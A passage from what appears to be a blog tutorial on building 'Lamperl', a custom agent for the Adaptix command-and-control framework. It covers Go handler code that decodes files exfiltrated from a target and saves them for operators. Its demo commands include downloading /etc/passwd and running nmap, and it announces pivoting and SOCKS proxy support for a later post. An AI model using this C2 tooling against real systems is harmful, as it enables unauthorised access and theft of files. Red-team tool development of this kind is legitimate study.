Here we show a message on the start of the download, then once completed we decode the file from base64 and save it to be accessed from the downloads tab.
```go
case "download":
    task.Type = TYPE_JOB

    // Check if this is async job start
    asyncVal := getInt(outputData, "async")
    if asyncVal != 0 {
        jobId := getString(outputData, "job_id")
        pid := getInt(outputData, "pid")
        path := getString(outputData, "path")
        task.Completed = false
        task.Message = fmt.Sprintf("Downloading: %s", path)
        task.ClearText = fmt.Sprintf("Job %s (PID: %d) started in background", jobId, pid)
    } else if errMsg := getString(outputData, "error"); errMsg != "" {
        task.Message = fmt.Sprintf("Download error: %s", errMsg)
        task.MessageType = MESSAGE_ERROR
    } else {
        // Completion report from finished job
        path := getString(outputData, "path")
        fileId := getString(outputData, "file_id")
        sizeFloat, _ := outputData["size"].(float64)
        size := int(sizeFloat)
        contentB64 := getString(outputData, "content")

        if contentB64 == "" || size == 0 {
            task.Message = fmt.Sprintf("Download failed: %s (file not found or empty)", path)
            task.MessageType = MESSAGE_ERROR
        } else {
            // Decode base64 content
            fileContent, err := base64.StdEncoding.DecodeString(contentB64)
            if err != nil {
                task.Message = fmt.Sprintf("Error decoding downloaded file %s: %s", path, err.Error())
                task.MessageType = MESSAGE_ERROR
            } else {
                // Extract filename from path
                fileName := path
                if idx := strings.LastIndex(path, "/"); idx != -1 {
                    fileName = path[idx+1:]
                }

                // Save file using C2 bindings
                err := ts.TsDownloadSave(agentData.Id, fileId, fileName, fileContent)
                if err != nil {
                    task.Message = fmt.Sprintf("Error saving downloaded file %s: %s", path, err.Error())
                    task.MessageType = MESSAGE_ERROR
                } else {
                    task.Message = fmt.Sprintf("Download completed: %s", fileName)
                    task.MessageType = MESSAGE_SUCCESS
                    task.ClearText = fmt.Sprintf("Size: %d bytes\nFile ID: %s", size, fileId)
                }
            }
        }
    }
```

The key call is `ts.TsDownloadSave()`, which stores the file in Adaptix's download tab where operators can access it.

## Testing/Demo

```
run /Tools/nmap
```



```
jobs list
```


```
jobs get <id>
```


```
jobs kill <id>
```


```
download /etc/passwd
```



```
upload /etc/passwd passtest
```


## Conclusion

We've implemented a job control system that provides:
- Async execution via a reusable higher-order wrapper
- Non-blocking I/O using pipes and fcntl
- Automatic completion reporting integrated with the beacon loop
- Job management with list, get, and kill operations
- File transfer (upload/download)
- UI integration through Task Manager context menus

The `make_async` pattern is particularly powerful, it turns any synchronous operation into a backgroundable job with minimal code.

Another important change is switching from `TsAgentConsoleOutput` to `task.Message` and `task.ClearText`, which in addition to displaying returns to the operator saves the output of tasks and jobs to the server.

Hopefully you found this post interesting or useful. In the next post, we'll tackle network pivoting capabilities: local port forwarding, remote port forwarding, and SOCKS proxy support.

The complete code for this iteration is available on GitHub:
- [Lamperl pt 3 Github Repository](https://github.com/P0142/Lamperlv3)